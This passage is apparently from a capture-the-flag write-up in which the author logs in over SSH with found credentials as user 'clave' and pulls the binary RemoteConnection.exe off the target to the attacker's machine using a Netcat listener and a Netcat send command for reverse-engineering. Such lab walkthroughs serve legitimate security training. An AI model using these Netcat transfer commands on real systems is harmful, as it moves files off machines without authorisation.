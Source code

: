 Oh boy. We got the credentials.

![](img/1__ZwFOSvH__r25NNn0IbsQNHg.png)

Huh? maybe the password is the whole text?

![](img/1__ZLHpFgywrGf11KYRYk8ilA.png)

Okay SSH without decoding the value.

![](img/1__EbH6pkkS__OO__sXj4gjMqjw.png)

And we are in, We got the user `clave`.

### Some reverse-engineering

We have RemoteConnection.exe in `/home/clave/`

let’s Download it with Netcat and do some reverse-engineering with OllyDbg.

Set up a listener on our machine with:

> nc -l -p 1234 > RemoteConnection.exe

and Send the file with:

> nc -w 3 10.10.15.137 < RemoteConnection.exe

And finally, check integrity with the md5sum command.

![](img/1__zff8mvJuWoI5HVOxwpTvaQ.png)
